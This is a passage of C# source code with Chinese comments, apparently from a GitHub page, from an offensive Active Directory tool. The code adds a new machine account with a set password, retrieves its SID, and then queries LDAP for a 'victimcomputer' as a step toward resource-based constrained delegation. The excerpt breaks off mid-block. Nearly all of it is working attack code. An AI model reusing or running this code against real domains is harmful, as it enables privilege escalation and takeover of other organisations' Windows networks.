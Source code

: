 ```
            });
            try
            {
                //添加机器账户
                connection.SendRequest(request);
                Console.WriteLine("[+] Machine account: " + machine_account + " Password: " + new_MachineAccount_password + " added");
            }
            catch (System.Exception ex)
            {
                Console.WriteLine("[-] The new machine could not be created! User may have reached ms-DS-new_MachineAccountQuota limit.)");
                Console.WriteLine("[-] Exception: " + ex.Message);
                return;
            }
            // 获取新计算机对象的SID
            var new_request = new System.DirectoryServices.Protocols.SearchRequest(distinguished_name, "(&(samAccountType=805306369)(|(name=" + machine_account + ")))", System.DirectoryServices.Protocols.SearchScope.Subtree, null);
            var new_response = (System.DirectoryServices.Protocols.SearchResponse)connection.SendRequest(new_request);
            SecurityIdentifier sid = null;
            foreach (System.DirectoryServices.Protocols.SearchResultEntry entry in new_response.Entries)
            {
                try
                {
                    sid = new SecurityIdentifier(entry.Attributes["objectsid"][0] as byte[], 0);
                    Console.Out.WriteLine("[+] " + new_MachineAccount + " SID : " + sid.Value);
                }
                catch
                {
                    Console.WriteLine("[!] It was not possible to retrieve the SID.\nExiting...");
                    return;
                }
            }
            //设置资源约束委派
            //System.DirectoryServices.DirectoryEntry myldapConnection = new System.DirectoryServices.DirectoryEntry("domain.com.cn");
            System.DirectoryServices.DirectoryEntry myldapConnection = new System.DirectoryServices.DirectoryEntry(Domain, username, password);
            myldapConnection.Path = victimcomputer_ldap_path;
            myldapConnection.AuthenticationType = System.DirectoryServices.AuthenticationTypes.Secure;
            System.DirectoryServices.DirectorySearcher search = new System.DirectoryServices.DirectorySearcher(myldapConnection);
            //通过ldap找计算机
            search.Filter = "(CN=" + victimcomputer + ")";
            string[] requiredProperties = new string[] { "samaccountname" };
            foreach (String property in requiredProperties)
                search.PropertiesToLoad.Add(property);
            System.DirectoryServices.SearchResult result = null;
            try
            {
                result = search.FindOne();
            }
            catch (System.Exception ex)
            {
                Console.WriteLine(ex.Message + "Exiting...");
                return;
            }
            if (result != null)
            {
```